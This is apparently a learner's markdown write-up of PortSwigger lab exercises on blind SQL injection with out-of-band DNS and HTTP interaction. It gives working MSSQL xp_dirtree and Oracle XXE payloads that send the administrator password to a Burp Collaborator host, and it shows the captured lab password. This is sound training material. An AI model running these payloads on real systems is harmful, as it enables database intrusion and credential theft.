




## Blind sqli with out-of-band interaction (OAST)

Now, suppose that the application carries out the same SQL query, but does it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute an SQL query using the tracking cookie. The query is still vulnerable to SQL injection, however none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. But more powerfully, data can be exfiltrated directly within the network interaction itself.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.

The easiest and most reliable way to use out-of-band techniques is using [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator). This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Support for Burp Collaborator is built in to [Burp Suite Professional](https://portswigger.net/burp/pro) with no configuration required.

The techniques for triggering a DNS query are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to cause a DNS lookup on a specified domain:

`'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`

This will cause the database to perform a lookup for the following domain:

`0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

You can use Burp Suite's [Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.

## Lab

--> to use collaborator in burp :

--> Goto burp==>burp collaborator client==> Then click `copy to clipboard` and save the subdomain

--> i used this payload :

```
'+||+(SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//738qc6nzh0x33rtw0rmgq0ka91ft3i.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+users)--
```

--> i got the requests in collaborator



--> and we solved the lab !



---

## Information Gathering

Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:

`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`

This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This will result in a DNS lookup like the following, allowing you to view the captured password:

`S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`

Out-of-band (OAST) techniques are an extremely powerful way to detect and exploit blind SQL injection, due to the highly likelihood of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.

--> i used this payload

```
'+||+(SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.0xy2jvnpf2fow06c9enuataudljc71.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+users)--
```

--> and i got the password of administrator



`820sriia4t8wy61gtzxw`

--> and we solved the lab !


